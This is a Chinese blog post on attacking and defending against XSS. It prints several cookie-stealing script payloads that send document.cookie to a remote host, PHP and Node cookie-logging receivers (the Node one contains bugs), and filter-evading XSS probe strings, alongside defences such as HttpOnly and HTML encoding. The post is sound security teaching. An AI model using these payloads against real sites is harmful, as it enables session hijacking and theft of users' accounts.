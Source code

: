 ```yaml
---
title: web安全-浅谈xss攻防（二）
date: 2018-10-10 16:05:13
cover: "https://cdn.jsdelivr.net/gh/okaychen/CDN@1.2/BlogSource/gallery/thumb_007.jpg"
tags:  
    - WEB安全
categories:
    - WEB安全
---
```


# 前言
上次介绍了什么是XSS以及XSS的三种类型，作为上次小尾巴的总结来说：XSS跨站脚本是一种经常出现在web应用程序中的计算机安全漏洞，是由于web应用程序对于用户的输入过滤不足引起的。攻击者利用网站漏洞把恶意脚本代码注入到网页之中，当其他用户浏览这些网页时，就会执行其中的恶意代码，轻者能达到恶作剧的目的，重者可以对受害者采取cookie资料窃取，会话劫持，钓鱼欺骗等各种攻击；分为三种类型，服务端的存储型和反射性，客户端自身漏洞引起的DOM型。这次我简单总结一些常见的攻击对应的防御措施，方便以后学习回顾;
<!--more-->
# 1.Cookie劫持
下面是几种是窃取用户Cookie信息的恶意代码，攻击者向漏洞页面写入类似的恶意代码从而达到获取客户端cookie信息的目的:

```
<script>document.location="http://test.com/cookie.asp?cookie ='+document.cookie</script>
<img src="http://test.com/cookie.asp?cookie ='+document.cookie">
<script>new Image().src="http://test.com/cookie.asp?cookie ='+document.cookie"</script>
<script>img=new Image();img.src="http://test.com/cookie.asp?cookie ='+document.cookie";img.wdith=0;img.height=0;</script>
<script>document.write('<img src="http://test.com/cookie.asp?cookie ='+document.cookie" width=0 height=0 border=0>')</script>
```
诸如此类，一旦注入成功，这些恶意代码都会向某个特定的远程服务器提交cookie，攻击者会在远程服务器上写一个接收和记录cookie信息的文件
例如php版本：
```php
<?php
    $cookie=$_GET['cookie'];
    $log= fopen("cookie.txt","a");
    fwrite($log,$cookie ."\n");
    fclose($log);
?>
```
或者node来处理:
```js
const http = require('http');
const fs = require('fs');

http.createServer(function(req,res){
    var Cookies = {};
    
    req.headers.cookie && req.headers.cookie.split(';').foEach(function(Cookies){
        var parts = Cookie.split('=');
        Cookies[ parts[ 0 ].trim() ] = ( parts[ 1 ] || '' ).trim();
    })

    console.log(Cookies)

    res.writeHeader(200,{
        'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed', 
        // 注意上面我们不设置HttpOnly;Fix:>>>'SSID=EqAc1D; Expires=Wed;HttpOnly'<<<
		'Content-Type' : 'text/plain'
    });
    
    fs.open('cookie.txt','r+',function(err,fd){
        if(err){
            return console.error(err);
        }
        fs.writeFile(fd,Cookies,function(){
            if(err){
                return console.error(err);
            }
        })
    })
}).listen(8000);
```
亦或是jsp版本、python flask等等诸如此类可以获取到从客户端发来的cookie做接收和记录操作的。

获取到存储信息的cookie.txt后，攻击者就可以通过修改网站的cookie信息（f12打开开发者控制工具，application/Cookies）来登入网站，从而来进行进一步的攻击操作。

## 防止cookie会话劫持
根本原因是攻击者获取cookie的恶意js代码注入到站点，进一步传到攻击者的远程服务器，从而进行攻击操作；
对于可能的意外注入站点的获取cookie的恶意js代码，我们一般要在设置cookie时加HttpOnly，来禁止意外注入站点的恶意js代码操作Cookie造成xss攻击
比如node设置HttpOnly：
```js
'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed ;HttpOnly'
```
或者php设置HttpOnly：
```php
<?php ini_set("session.cookie_httponly", 1); ?>
```
# 2.提高攻击门槛

## 使用XSS Filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容，例如：
1.表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等
2.过滤或移除特殊的 html 标签：`<script>`、`<iframe>`等
3.过滤 js 事件的标签：onclick、onerror、onfocus等
4.对于要求用户输入的一些特殊格式的字段，用正则和字段长度进行严格限制，比如手机号，邮箱等
如在客户端进行验证手机号的JavaScript代码:
```js
<form id="test">
    <input type="text" id="tel">
    <input type="button" onclick="checkTel()"> 
</form>
<script>
    function(){
        let re = /^020-\d{8}$/;
        if(re.test(document.getElementById("Tel").value)){
            alert('电话号码格式正确');
        }else{
            alert('错误的电话号码');
        }
    }
</script>
```
这段JavaScript验证代码要求用户输入的必须是020-开头，后跟8位数字.
> 但是需要特别注意的是，*仅仅在客户端进行非法输入的验证和检测是远远不够的*，因为客户端组件和用户输入不在服务器的控制范围内，用户能够完全控制客户端及提交的数据，比如firebug、TemperDate之类的工具，拦截应用程序收到和发布每一个HTTP/HTTPS请求和响应，对其进行修改和检查，从而绕过客户端的检验将信息提交到服务器中。因此，确认客户端生成数据的唯一安全方法就是在服务端实施保护措施。

## 输出编码Xss Escape
有时候我们又不可避免的需要用户输入一些特殊字符，但是我们又不确定用户输入的这段含特殊字符的数据是不是恶意的含xss的字符，为了保证用户输入的完整性和正确性，就可以使用编码（HTMLEncode）进行处理。

HTML编码在防止xss攻击上能起很大的作用，它主要使用对应的实体代替HTML字符，让该字符作为其HTML文档的内容而非结构加以处理。

| 显示 | 实体名字 | 实体编号 |
| :------: | :------: | :------: |
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `&` | `&amp;` | `&#38;` |
| `"` | `&quot;` | `&#34;` |

上面就是几个可能触发xss的敏感字符，都是一些特殊的HTML字符。都这些字符实现编码和转义后，能够有效地防范HTML注入和XSS攻击

例如php的`htmlspecialchars()`库函数，就能够将用户输入的特殊字符进行实体转换：
- `<` 转成 `&lt;`
- `>` 转成 `&gt;`
- `&` 转成 `&amp;`
- `"` 转成 `&quot;`
- `'` 转成 `&#39;`

实际情况中，我们可以结合这两种情况进行过滤

![安全的过滤形式](/assets/images/xss-encode02.png)

# 3.Xss漏洞检测Poc
标准的xss漏洞检测代码
```js
<script>alert('xss')</script>
```
img 图片标记属性跨站攻击代码
```
<img src="javascript:alert(/xss/)"></img> <img dynsrc="javascript:alert('xss')">
```
无需 “<>”，利用 html 标记事件属性跨站
```
<img src="" onerror=alert("xss")>
```
空格与回车符转换
```
<img src="Jav&#x09;ascript:alert('xss')"> <img src="Jav&#x0A;ascript:alert('xss')"> <img src="Jav&#x0D;ascript:alert('xss')">
```
10 进制转换
```
<img src="&#74&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#120&#115&#115&#39&#41">
```
以上代码都可以做 Poc 使用，在有变量的位置插入，如果成功执行则代表有漏洞。
只要你提交的Poc，服务端原封不动的返回了，说明服务端不经过任何处理就显示了，就证明有漏洞存在。

# 参考资料
[《XSS跨站脚本剖析与防御》--邱永华](https://book.douban.com/subject/25711796/)
[《白帽子讲web安全》--吴翰清](https://book.douban.com/subject/10546925/)
[《Web 安全：前端攻击 XSS 深入解析》](https://blog.csdn.net/gitchat/article/details/78726803)